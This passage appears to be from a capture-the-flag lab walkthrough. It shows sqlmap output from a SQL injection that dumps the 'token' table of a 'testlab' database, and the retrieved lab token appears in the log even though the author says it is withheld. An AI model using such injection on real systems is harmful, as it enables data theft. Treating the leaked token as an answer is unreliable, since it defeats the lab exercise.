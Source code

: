 ```console
web application technology: PHP 5.4.45, Nginx
back-end DBMS: MySQL >= 5.0
[21:54:49] [INFO] fetching columns for table 'token' in database 'testlab'
[21:54:49] [INFO] the SQL query used returns 1 entries
[21:54:49] [INFO] resumed: "token","varchar(50)"
[21:54:49] [INFO] fetching entries for table 'token' in database 'testlab'     
[21:54:50] [WARNING] reflective value(s) found and filtering out
[21:54:50] [INFO] the SQL query used returns 1 entries
[21:54:50] [INFO] retrieved: Muph8gu7
[21:54:50] [INFO] analyzing table dump for possible password hashes            
Database: testlab
Table: token
[1 entry]
+----------+
| token    |
+----------+
| ******** |
+----------+

[21:54:50] [INFO] table 'testlab.token' dumped to CSV file '/root/.sqlmap/output/localhost/dump/testlab/token.csv'
[21:54:50] [INFO] fetched data logged to text files under '/root/.sqlmap/output/localhost'

[*] shutting down at 21:54:50
```

## Token (5/13):

Congrats on finding the token! Go ahead and submit it on the main page to gain points for it!

You might be wondering why I didn't post the actual token. Well, what would be the fun in that if I did? Go through and actually try to compromise the Store via SSH Tunneling to get the token!

You learn by doing, so go through this walkthrough, and the lab - and learn something new!

That's all for now, stay tuned for my next post as we compromise Token (6/13) - The Blog Token!
